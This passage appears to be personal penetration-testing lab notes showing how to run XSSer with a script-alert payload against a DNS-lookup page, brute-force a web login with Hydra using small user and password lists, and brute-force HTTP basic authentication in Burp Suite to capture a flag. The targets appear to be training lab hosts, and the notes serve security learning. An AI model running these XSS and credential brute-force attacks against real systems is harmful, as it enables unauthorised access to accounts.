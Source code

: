 		1. `xsser --url '<http://192.131.167.3/index.php?page=dns-lookup.php>' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'`
		2. `xsser --url '<http://192.131.167.3/index.php?page=dns-lookup.php>' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto`
		3. `xsser --url '<http://192.131.167.3/index.php?page=dns-lookup.php>' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"`
	- **Attacking HTTP Login form**
		- **Hydra**
			1. echo -e "admin\nbee\nuser1\nuser2" > users
			2. cat /root/Desktop/wordlists/100-common-passwords.txt > pws
			3. echo "bug" >> pws
			4. `hydra -L users -P pws 192.210.201.3 http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!”`
	- **Burp suite**
		1. capture the req [http://192.190.241.3/basic](http://192.190.241.3/basic)
		2. decode the basic encoded value - base64 decode
		3. Add basic encrypted value
		4. Choose sniper
		5. Load the common.txt payloads
		6. Add payload processing [1. Add prefix admin: 2. encode - base64 encode]
		7. Start attack
		8. Got 301 req, capture the encoded cred
		9. decrypt and get the flag
